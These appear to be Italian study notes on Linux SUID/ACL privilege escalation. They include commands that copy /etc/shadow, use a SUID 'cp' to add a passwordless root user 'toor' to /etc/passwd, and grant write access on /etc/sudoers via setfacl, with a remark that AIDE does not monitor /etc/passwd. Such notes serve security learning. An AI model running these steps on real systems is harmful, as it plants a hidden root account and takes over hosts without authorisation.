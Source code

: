 2. Copio i file da modificare (come root)

```sh
cp /etc/passwd .
cp /etc/shadow .
ls -l

-rw-r--r-- 1 root vagrant 1503 Jun  1 17:38 passwd
-rw-r----- 1 root vagrant  864 Jun  1 17:39 shadow
```

3. Creo una copia dei file che posso leggere e scrivere, da poi copiare al posto di quelli originalis

```sh
cat passwd > pass.rw    # Crea una copia leggibile/scrivibile
cat shadow > shad.rw    # Stessa cosa per shadow
ls -l   
```

### Esempio interessante (aggiunta utente toor)

Precondizioni: è stato impostato il SUID a "cp"

```sh
cat /etc/passwd > passwd 

echo "toor::0:0::/root:/bin/bash" >> passwd # utente con permessi di root

cp passwd /etc/passwd # posso farlo per il suid attivo
```

4. *TIPS*:  La ricerca "a tappeto" di file e directory con permessi speciali settati si può fare con ```find / -perm /7000```
restringendola se è il caso coi normali filtri di find. La maschera 7000 include i file che abbiano uno qualsiasi dei bit speciali settato (4000 = UID + 2000 = GID + 1000 = TEMP)

## ACL

Le ACL POSIX sono un'estensione dei permessi standard, che permette di assegnarli specificamente a soggetti diversi da proprietario, gruppo proprietario, e "altri".

Modifica le Access Control List (ACL) del file /etc/sudoers per concedere i permessi specifici all'utente kali:
```sh
setfacl -m u:kali:rw /etc/sudoers
```

È usato per ottenere le ACL di un intero filesystem, in particolare a partire dalla radice "/":
```sh
getfacl -sR / 
```

# Esempio interessante:

AIDE esclude /etc/passwd come file da analizzare, possiamo usare ```getfacl /etc/passwd```.
